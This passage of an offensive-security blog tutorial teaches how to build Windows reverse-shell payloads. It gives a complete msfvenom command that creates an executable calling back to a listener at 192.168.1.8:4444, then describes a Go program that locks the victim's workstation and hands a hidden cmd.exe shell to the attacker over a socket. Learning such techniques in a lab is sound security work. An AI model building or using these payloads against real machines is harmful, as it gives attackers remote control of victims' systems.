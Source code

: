 Msfvenom includes a number of parameters yet, we’re only going to focus on a few:

* CPU architecture
* Platform (as in, Operating System or OS)
* Payload
* Listening host and port
* Executable format
* Output filename

Specifying incorrect arguments (input) for our CPU architecture, platform, or executable format could cause our exploit to fail. Therefore, it is imperative we accurately identify our target machine. Execute the command sentence below to generate a quick and hasty Microsoft Windows exploit using Msfvenom (the \ symbols are totally optional and only serve to make this blog post more readable).

```bash
# how to create a hasty exploit with Msfvenom
msfvenom \
 --arch x86 \
 --platform windows \
 --payload windows/shell_reverse_tcp \
 LHOST=192.168.1.8 \
 LPORT=4444 \
 -f exe \
 -o hackmefast.exe
```

![hackmefast.gif]({{ site.url }}{{ site.baseurl }}/_assets/Hasty/hackmefast.gif)

## How to Write a Deliberate Exploit in Go

Go is a general-purpose programming language developed by Google. It’s easy to read, has an “intelligent” cross-compiler (gives helpful warning/error messages as to why your code sucks), and doesn’t use a preprocessor (something that could influence how your code runs). To begin developing Go code, open a text-editor in a terminal on your Kali VM (I like to use Vim).
```bash
# how to open a text-editor in a terminal
vim hackmeslow.go
```
Next, mirror the code below. Our source file begins by telling the Go compiler we want a self-contained program, or a program that carries everything it needs to execute (a.k.a “statically linked,” read this for more info). We then import packages that enable our program to communicate on the network and control the OS. Within our `main()` function, we have three tasks we’re aiming to accomplish: lock the victim’s workstation, create a network socket, and send a Reverse Shell across it. A Reverse Shell “forces an infected machine to call the attacker and offer-up shell access to it’s operating system.” In contrast, traditional shell access requires the attacker to call the would-be infected machine and authenticate with valid credentials. A Reverse Shell is also helpful in bypassing inbound firewall rules.

To achieve our objectives, we select `rundll32.exe` and `user32.dll`, LockWorkStation as the first command sentence we want executed. For the curious, `rundll32.exe` is a Microsoft Windows program used for loading software libraries (like `user32.dll`) and accessing functions within them (such as LockWorkStation). We then leverage a Go function called `net.Dial()` to create a network socket, passing any errors it generates to the `_` variable. This variable is also known as the “Blank Identifer” and helps satisfy some of the compiler’s pre-compilation checks. Next, we identify cmd.exe as the second command we wanted executed. After enabling the HideWindow attribute, we then point all input, output, and error “pipes” from cmd.exe to our socket. Finally, we ask for our payloads (locking the workstation and providing us remote access) to be ran.
